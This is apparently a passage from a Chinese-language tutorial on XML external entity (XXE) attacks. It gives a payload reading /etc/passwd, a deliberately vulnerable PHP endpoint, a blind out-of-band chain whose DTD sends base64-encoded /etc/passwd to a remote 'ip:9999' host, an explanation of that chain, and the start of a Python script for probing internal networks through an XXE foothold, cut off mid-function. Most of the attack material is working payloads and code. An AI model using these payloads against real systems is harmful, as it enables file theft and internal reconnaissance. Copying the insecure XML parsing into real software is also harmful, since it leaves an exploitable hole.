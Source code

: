 **payload:**

```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE creds [  
<!ENTITY goodies SYSTEM "file:///etc/passwd"> ]> 
<creds>&goodies;</creds>
```

### 2、无回显读取本地敏感文件(Blind OOB XXE)

**xml.php**

```
<?php

libxml_disable_entity_loader (false);
$xmlfile = file_get_contents('php://input');
$dom = new DOMDocument();
$dom->loadXML($xmlfile, LIBXML_NOENT | LIBXML_DTDLOAD); 
?>
```

**test.dtd**

```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///etc/passwd">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://ip:9999?p=%file;'>">
```

**payload：**

```
<!DOCTYPE convert [ 
<!ENTITY % remote SYSTEM "http://ip/test.dtd">
%remote;%int;%send;
]>
```

**整个调用过程：**

我们从 payload 中能看到 连续调用了三个参数实体 %remote;%int;%send;，这就是我们的利用顺序，%remote 先调用，调用后请求远程服务器上的 test.dtd ，有点类似于将 test.dtd 包含进来，然后 %int 调用 test.dtd 中的 %file, %file 就会去获取服务器上面的敏感文件，然后将 %file 的结果填入到 %send 以后(因为实体的值中不能有 %, 所以将其转成html实体编码 `%`)，我们再调用 %send; 把我们的读取到的数据发送到我们的远程 vps 上，这样就实现了外带数据的效果，完美的解决了 XXE 无回显的问题。

### 3、HTTP 内网主机探测

我们以存在 XXE 漏洞的服务器为我们探测内网的支点。要进行内网探测我们还需要做一些准备工作，我们需要先利用 file 协议读取我们作为支点服务器的网络配置文件，看一下有没有内网，以及网段大概是什么样子（我以linux 为例），我们可以尝试读取 /etc/network/interfaces 或者 /proc/net/arp 或者 /etc/host 文件以后我们就有了大致的探测方向了

**探测脚本**

```
import requests
import base64

#Origtional XML that the server accepts
#<xml>
#    <stuff>user</stuff>
#</xml>


def build_xml(string):
    xml = """<?xml version="1.0" encoding="ISO-8859-1"?>"""
    xml = xml + "\r\n" + """<!DOCTYPE foo [ <!ELEMENT foo ANY >"""
    xml = xml + "\r\n" + """<!ENTITY xxe SYSTEM """ + '"' + string + '"' + """>]>"""
    xml = xml + "\r\n" + """<xml>"""
    xml = xml + "\r\n" + """    <stuff>&xxe;</stuff>"""
    xml = xml + "\r\n" + """</xml>"""
    send_xml(xml)
```